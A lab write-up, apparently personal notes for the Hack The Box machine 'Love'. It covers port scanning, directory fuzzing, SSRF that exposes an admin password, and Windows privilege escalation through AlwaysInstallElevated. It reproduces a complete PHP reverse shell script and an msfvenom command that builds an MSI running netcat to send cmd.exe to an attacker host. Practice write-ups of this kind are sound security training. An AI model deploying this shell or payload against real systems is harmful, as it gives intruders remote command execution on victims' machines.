





# nmap

````bash
# Nmap 7.91 scan initiated Sun Jun 13 17:52:13 2021 as: nmap -sC -sV -A -p- -vv --open -oA nmap/10.10.10.239 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up, received syn-ack (0.23s latency).
Scanned at 2021-06-13 17:52:13 SAST for 282s
Not shown: 62097 closed ports, 3421 filtered ports
Reason: 62097 conn-refused and 3421 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/emailAddress=roy@love.htb/localityName=norway
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/emailAddress=roy@love.htb/localityName=norway
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
| SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
| -----BEGIN CERTIFICATE-----
| MIIDozCCAosCFFhDHcnclWJmeuqOK/LQv3XDNEu4MA0GCSqGSIb3DQEBCwUAMIGN
| MQswCQYDVQQGEwJpbjEKMAgGA1UECAwBbTEPMA0GA1UEBwwGbm9yd2F5MRYwFAYD
| VQQKDA1WYWxlbnRpbmVDb3JwMREwDwYDVQQLDAhsb3ZlLmh0YjEZMBcGA1UEAwwQ
| c3RhZ2luZy5sb3ZlLmh0YjEbMBkGCSqGSIb3DQEJARYMcm95QGxvdmUuaHRiMB4X
| DTIxMDExODE0MDAxNloXDTIyMDExODE0MDAxNlowgY0xCzAJBgNVBAYTAmluMQow
| CAYDVQQIDAFtMQ8wDQYDVQQHDAZub3J3YXkxFjAUBgNVBAoMDVZhbGVudGluZUNv
| cnAxETAPBgNVBAsMCGxvdmUuaHRiMRkwFwYDVQQDDBBzdGFnaW5nLmxvdmUuaHRi
| MRswGQYJKoZIhvcNAQkBFgxyb3lAbG92ZS5odGIwggEiMA0GCSqGSIb3DQEBAQUA
| A4IBDwAwggEKAoIBAQDQlH1J/AwbEm2Hnh4Bizch08sUHlHg7vAMGEB14LPq9G20
| PL/6QmYxJOWBPjBWWywNYK3cPIFY8yUmYlLBiVI0piRfaSj7wTLW3GFSPhrpmfz0
| 0zJMKeyBOD0+1K9BxiUQNVyEnihsULZKLmZcF6LhOIhiONEL6mKKr2/mHLgfoR7U
| vM7OmmywdLRgLfXN2Cgpkv7ciEARU0phRq2p1s4W9Hn3XEU8iVqgfFXs/ZNyX3r8
| LtDiQUavwn2s+Hta0mslI0waTmyOsNrE4wgcdcF9kLK/9ttM1ugTJSQAQWbYo5LD
| 2bVw7JidPhX8mELviftIv5W1LguCb3uVb6ipfShxAgMBAAEwDQYJKoZIhvcNAQEL
| BQADggEBANB5x2U0QuQdc9niiW8XtGVqlUZOpmToxstBm4r0Djdqv/Z73I/qys0A
| y7crcy9dRO7M80Dnvj0ReGxoWN/95ZA4GSL8TUfIfXbonrCKFiXOOuS8jCzC9LWE
| nP4jUUlAOJv6uYDajoD3NfbhW8uBvopO+8nywbQdiffatKO35McSl7ukvIK+d7gz
| oool/rMp/fQ40A1nxVHeLPOexyB3YJIMAhm4NexfJ2TKxs10C+lJcuOxt7MhOk0h
| zSPL/pMbMouLTXnIsh4SdJEzEkNnuO69yQoN8XgjM7vHvZQIlzs1R5pk4WIgKHSZ
| 0drwvFE50xML9h2wrGh7L9/CSbhIhO8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds syn-ack Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?       syn-ack
| fingerprint-strings: 
|   Help, NULL: 
|_    Host '10.10.14.10' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host '10.10.14.10' is not allowed to connect to this MariaDB server
5000/tcp  open  http         syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack
7680/tcp  open  pando-pub?   syn-ack
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=6/13%Time=60C62A12%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.10'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,4A,"F\0
SF:\0\x01\xffj\x04Host\x20'10\.10\.14\.10'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h44m35s, deviation: 4h02m29s, median: 24m34s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25016/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 46453/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 30900/udp): CLEAN (Failed to receive data)
|   Check 4 (port 21885/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-13T09:21:13-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-13T16:21:16
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 13 17:56:55 2021 -- 1 IP address (1 host up) scanned in 282.48 seconds
````


````bash
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/emailAddress=roy@love.htb/localityName=norway
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/emailAddress=roy@love.htb/localityName=norway
| Public Key type: rsa
| Public Key bits: 2048
````


 ## open ports
 - <span class="myYellowHighlight">80/tcp    open  http</span> syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)

 - <span class="myYellowHighlight">443/tcp   open  ssl/http</span> syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)

 - <span class="myYellowHighlight">5000/tcp  open  http</span> syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)

 - <span class="myYellowHighlight">7680/tcp  open</span> pando-pub?   syn-ack

 - <span class="myYellowHighlight">47001/tcp open  http</span> syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)


# ffuf
└─$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://love.htb/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
<span class="myYellowHighlight"> :: URL              : http://love.htb/FUZZ</span>
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

includes                [Status: 301, Size: 332, Words: 22, Lines: 10]
plugins                 [Status: 301, Size: 331, Words: 22, Lines: 10]
<span class="myYellowHighlight">admin</span>                   [Status: 301, Size: 329, Words: 22, Lines: 10]
images                  [Status: 301, Size: 330, Words: 22, Lines: 10]
Admin                   [Status: 301, Size: 329, Words: 22, Lines: 10]
webalizer               [Status: 403, Size: 298, Words: 22, Lines: 10]
Images                  [Status: 301, Size: 330, Words: 22, Lines: 10]
phpmyadmin              [Status: 403, Size: 298, Words: 22, Lines: 10]
Includes                [Status: 301, Size: 332, Words: 22, Lines: 10]
ADMIN                   [Status: 301, Size: 329, Words: 22, Lines: 10]
dist                    [Status: 301, Size: 328, Words: 22, Lines: 10]
IMAGES                  [Status: 301, Size: 330, Words: 22, Lines: 10]
tcpdf                   [Status: 301, Size: 329, Words: 22, Lines: 10]
licenses                [Status: 403, Size: 417, Words: 37, Lines: 12]
server-status           [Status: 403, Size: 417, Words: 37, Lines: 12]
                        [Status: 200, Size: 4388, Words: 654, Lines: 126]
PlugIns                 [Status: 301, Size: 331, Words: 22, Lines: 10]
INCLUDES                [Status: 301, Size: 332, Words: 22, Lines: 10]
Plugins                 [Status: 301, Size: 331, Words: 22, Lines: 10]
con                     [Status: 403, Size: 298, Words: 22, Lines: 10]
aux                     [Status: 403, Size: 298, Words: 22, Lines: 10]
prn                     [Status: 403, Size: 298, Words: 22, Lines: 10]
server-info             [Status: 403, Size: 417, Words: 37, Lines: 12]
:: Progress: [30000/30000] :: Job [1/1] :: 167 req/sec :: Duration: [0:03:00] :: Errors: 2 ::

# web

## /etc/hosts

````bash
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/emailAddress=roy@love.htb/localityName=norway
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/emailAddress=roy@love.htb/localityName=norway
| Public Key type: rsa
| Public Key bits: 2048


49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=6/13%Time=60C62A12%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.10'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,4A,"F\0
SF:\0\x01\xffj\x04Host\x20'10\.10\.14\.10'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows


````

- from `commonName` an entry for  staging.love.htb
- from  `Service Info:`  entries for <span class="myYellowHighlight"> www.example.com </span>, <span class="myYellowHighlight"> LOVE </span>,<span class="myYellowHighlight"> www.love.htb </span>


 ## open ports
 - <span class="myYellowHighlight">80/tcp    open  http</span> syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)

 - <span class="myYellowHighlight">443/tcp   open  ssl/http</span> syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)

 - <span class="myYellowHighlight">5000/tcp  open  http</span> syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)

 - <span class="myYellowHighlight">7680/tcp  open</span> pando-pub?   syn-ack

 - <span class="myYellowHighlight">47001/tcp open  http</span> syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

## default vhost 10.10.10.239

### port 80
- page accessible


### port 443
- no page accessible


### port 5000
- no page accessible


### port 7680
- no service accessible


## vhost love.htb
### port 80
- page accessible


### port 443
- page not accessible


### port 5000
- page not accessible


### port 7680
- service not accessible


### port 47001
- service not accessible


## vhost staging.love.htb
### <span class="myYellowHighlight">port 80</span>
- page accessible



# php windows reverse shell by Ivan Šincek

can be found here https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php

````php
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.3
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function \_\_construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP\_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos(PHP\_OS, 'WIN32') !== false || stripos(PHP\_OS, 'WINNT') !== false || stripos(PHP\_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS\_ERROR: Underlying operating system is not supported, script will now exit...\\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function\_exists('pcntl\_fork')) {
            echo "DAEMONIZE: pcntl\_fork() does not exists, moving on...\\n";
        } else if (($pid = @pcntl\_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\\n";
        } else if (posix\_setsid() < 0) {
            // once daemonized you will actually no longer see the script's dump
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\\n";
        }
        return $exit;
    }
    private function settings() {
        @error\_reporting(0);
        @set\_time\_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        $data = str\_replace('<', '&lt;', $data);
        $data = str\_replace('>', '&gt;', $data);
        echo $data;
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM\_ERROR: Cannot read from ${name}, script will now exit...\\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM\_ERROR: Cannot write to ${name}, script will now exit...\\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat\['size'\];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC\_ERROR: {$errno}: {$errstr}\\n";
            } else {
                stream\_set\_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc\_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC\_ERROR: Cannot start the shell\\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream\_set\_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc\_get\_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: " . $status\['pid'\] . "\\n");
                    do {
						$status = proc\_get\_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC\_ERROR: Shell connection has been terminated\\n"; break;
                        } else if (feof($pipes\[1\]) || !$status\['running'\]) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC\_ERROR: Shell process has been terminated\\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc\_get\_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes\[1\], $pipes\[2\]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num\_changed\_streams = @stream\_select($streams\['read'\], $streams\['write'\], $streams\['except'\], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num\_changed\_streams === false) {
                            echo "STRM\_ERROR: stream\_select() failed\\n"; break;
                        } else if ($num\_changed\_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in\_array($socket  , $streams\['read'\])) { $this->rw($socket  , $pipes\[0\], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in\_array($pipes\[2\], $streams\['read'\])) { $this->rw($pipes\[2\], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in\_array($pipes\[1\], $streams\['read'\])) { $this->rw($pipes\[1\], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in\_array($socket, $streams\['read'\])/\*------\*/) { $this->rw ($socket  , $pipes\[0\], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes\[2\])) && $fstat\['size'\]) { $this->brw($pipes\[2\], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes\[1\])) && $fstat\['size'\]) { $this->brw($pipes\[1\], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc\_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('127.0.0.1', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc\_collect\_cycles();
echo '</pre>';
?>
````


# user

## RCE


- RCE is possible but could not execute php windows reverse shell
- Could the page be used for SSRF ?

## SSRF
- trying SSRF to reach ports 80, 443, 5000, 7680 and 47001 as before

#### port 80

- http://127.0.0.1:80 renders successfully

### port 5000

- http://127.0.0.1:5000 renders successfully
- credits discovered <span class="myYellowHighlight">admin:@LoveIsInTheAir!!!!</span>
- nothing was found on remaining ports 7680 and 47001

### reverse shell


- [[15 - ffuf]] had found admin folder 
- php reverse shell needed can be found http://https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php or [[25 - php windows reverse shell]]
- logon to that url to create a user that gives reverse shell

# root
````bash
((,.,/((((((((((((((((((((/,  */
     ,/*,..*(((((((((((((((((((((((((((((((((,
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*
   ((((((((((((((((* *****,,,/########## .(* ,((((((
   (((((((((((/* ******************/####### .(. ((((((
   ((((((..******************/@@@@@/***/###### /((((((
   ,,..**********************@@@@@@@@@@(***,#### ../(((((
   , ,**********************#@@@@@#@@@@*********##((/ /((((
   ..(((##########*********/#@@@@@@@@@/*************,,..((((
   .(((################(/******/@@@@@#****************.. /((
   .((########################(/************************..*(
   .((#############################(/********************.,(
   .((##################################(/***************..(
   .((######################################(************..(
   .((######(,.***.,(###################(..***(/*********..(
   .((######*(#####((##################((######/(********..(
   .((##################(/**********(################(**...(
   .(((####################/*******(###################.((((
   .(((((############################################/  /((
   ..(((((#########################################(..(((((.
   ....(((((#####################################( .((((((.
   ......(((((#################################( .(((((((.
   (((((((((. ,(############################(../(((((((((.
       (((((((((/,  ,####################(/..((((((((((.
             (((((((((/,.  ,*//////*,. ./(((((((((((.
                (((((((((((((((((((((((((((/
                       by carlospolop


Checking for defender whitelisted PATHS

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths
    C:\Administration    REG_DWORD    0x0
    C:\xampp\htdocs\omrs    REG_DWORD    0x0

 [+] PowerShell settings
PowerShell v2 Version:

    

 [+] AlwaysInstallElevated?
   [i] If '1' then you can install a .msi file with admin privileges ;)
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


[*] NETWORK
 [+] CURRENT SHARES


---
Scan complete.
````
- suggests one can put nc.exe on  <span class="myYellowHighlight">C:\xampp\htdocs\omr</span>
- generate an .msi and download to this location user curl
````bash
msfvenom -p windows/exec CMD='C:\xampp\htdocs\omrs\nc.exe -e cmd 10.10.14.12 4242' -f msi > /home/qdada/HTB/boxes/10.10.10.239-Love/callhome2.msi
````
- lunch a listener and profit
